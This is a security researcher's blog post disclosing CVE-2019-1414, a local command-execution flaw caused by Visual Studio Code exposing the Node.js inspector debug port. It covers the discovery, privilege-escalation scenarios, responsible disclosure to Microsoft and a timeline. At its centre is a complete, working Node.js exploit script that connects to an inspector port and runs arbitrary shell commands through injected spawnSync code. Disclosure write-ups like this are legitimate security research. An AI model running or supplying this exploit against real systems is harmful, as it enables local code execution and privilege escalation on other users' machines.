 ```yaml
---
layout: default
---
```


_**Nov 4, 2019**_

## CVE-2019-1414 — a Local Command Execution in Visual Studio Code

A couple of months ago I discovered by looking at the running processes of my VM that [Visual Studio Code](https://code.visualstudio.com/) was enabling by default the [Node.js debug port](https://nodejs.org/en/docs/guides/debugging-getting-started/). Let's analyze the security impact and the process followed to exploit the issue and achieve Command Execution in the context of the running Visual Studio Code instance.

<script id="asciicast-PeDRogrDXQLbVb0A7hbLiXlNk" src="https://asciinema.org/a/PeDRogrDXQLbVb0A7hbLiXlNk.js" async></script>

## Debugging Node.js

Before my career shift into security, I was working as Full Stack JavaScript Developer. As result, I was spending a lot of time writing Node.js code to build Web APIs and data processing scripts. When you have to debug a Node.js application, it's very handy to reuse the Chrome DevTools that we all know and love, since it lets to set breakpoints and it has code evaluation and interactive inspection with sourcemaps support! To enable developers to natively use the Chrome DevTools, they migrated from the legacy debug protocol to the newer [Inspector protocol](https://v8.dev/docs/inspector), that is based on the [WebSocket protocol](https://tools.ietf.org/html/rfc6455). When a Node.js instance is launched with the `--inspect` command line option, it exposes by default a debug port on `127.0.0.1:9229`. This debug port enables full access to the underline Node.js instance, including the ability to run arbitrary JavaScript code. It's also possibile to define a custom TCP port using the `--inspect=12345` option. We can connect to the port using Chrome by opening the URL `chrome://inspect` or programmatically by writing some code.

## Discovery

By looking _by chance_ at the running processes in my VM, I noticed that Visual Studio Code was normally started with the `--inspect=RANDOM_PORT` option, using a random TCP port at every execution.

![discovery](../assets/images/cve-2019-1414-discovery.jpg "Discovery")

A local attacker can exploit this port to execute arbitrary JavaScript code within the underline Node.js instance, ultimately achieving command execution on the system in the context of the Visual Studio Code instance. This can be used for horizontal and vertical lateral movements, including the following scenarios:

1. if Visual Studio code runs as Administrator, we can elevate our privileges to the highest level, i.e. `NT AUTHORITY\SYSTEM`
2. if Visual Studio Code runs as another user, we can achieve command execution as that user
3. if Visual Studio Code runs in High Integrity context, we can bypass any UAC setting and elevate from Low/Medium levels

## Exploitation

There are two main limitations to the exploitability, that are:

1. the debug port binds to `127.0.0.1`
2. a random TCP port is used every execution

Due to these limitations, the issue cannot be remotely exploited. If instead a fixed TCP port was used, the issue could have been exploited via the browser using a [DNS Rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the Same Origin Policy.

To be able to execute arbitary JavaScript code, we need first to retrieve the WebSocket link using a `HTTP GET` request to `/json` URL and then connect to it using the WebSocket protocol.

![websocket](../assets/images/cve-2019-1414-websocket.jpg "WebSocketLink")

I wrote a [simple Node.js script](https://github.com/phra/inspector-exploiter) to execute arbitrary commands by connecting to the debug port.

```javascript
const fetch = require('node-fetch')
const WebSocket = require('ws')

function die(reason) {
  console.error(reason)
  process.exit(-1)
}

if (process.argv.length !== 5) {
  die('usage: node index.js <IP> <PORT> <COMMAND>')
}

const IP = process.argv[2]
const PORT = process.argv[3]
const COMMAND = process.argv[4]
const COMMAND_B64 = base64(COMMAND)

function base64(data) {
  return Buffer.from(data).toString('base64')
}

async function getWsLink() {
  const res = await fetch(`http://${IP}:${PORT}/json`)
  const data = await res.json()
  return data[0].webSocketDebuggerUrl
}

async function main() {
  console.log(`[?] Getting webSocketDebuggerUrl from http://${IP}:${PORT}/json`)
  const wsLink = await getWsLink().catch(die)
  console.log(`[!] Found webSocketDebuggerUrl: ${wsLink}`)
  const socket = new WebSocket(wsLink)

  socket.onopen = async (event) => {
    console.log(`[?] Connection established to ${wsLink}`)
    socket.send(JSON.stringify({ id: 1, method: 'Runtime.enable' }))
    socket.send(JSON.stringify({
      id: 2,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}`
      }
    }))

    socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}`
      }
    }))

    console.log(`[!] Executing: ${COMMAND}`)
    socket.send(JSON.stringify({
      id: 4,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/bin/bash', ['-c', 'echo ${COMMAND_B64} | base64 -d | /bin/bash'])`
      }
    }))

    socket.close()
  }

  socket.onclose = (event) => {
    if (event.wasClean) {
      console.log('[?] Connection closed cleanly')
    } else {
      console.log('[?] Connection died')
    }
  }

  socket.onerror = (error) => {
    console.log(error)
  }
}

main()
```

Here you can see it in action:

![exploit](../assets/images/cve-2019-1414-exploit.jpg "Exploit")

## Responsible Disclosure

The issue was promptly reported to Microsoft by following a Responsible Disclosure approach.

![msrc](../assets/images/cve-2019-1414-msrc.jpg "MSRC")

The vulnerability was also [indipendently discovered](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944) by [Tavis Ormandy](https://twitter.com/taviso) of [Google Project Zero](https://googleprojectzero.blogspot.com/).

[CVE-2019-1414](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-1414) was assigned to the reported issue.

## Timeline

- 31/08/2019: Issue reported to MSRC
- 03/09/2019: Issue acknowledged (case #53814)
- 11/10/2019: Google Project Zero public disclosure
- 17/10/2019: CVE-2019-1414 Advisory released

[back](../)
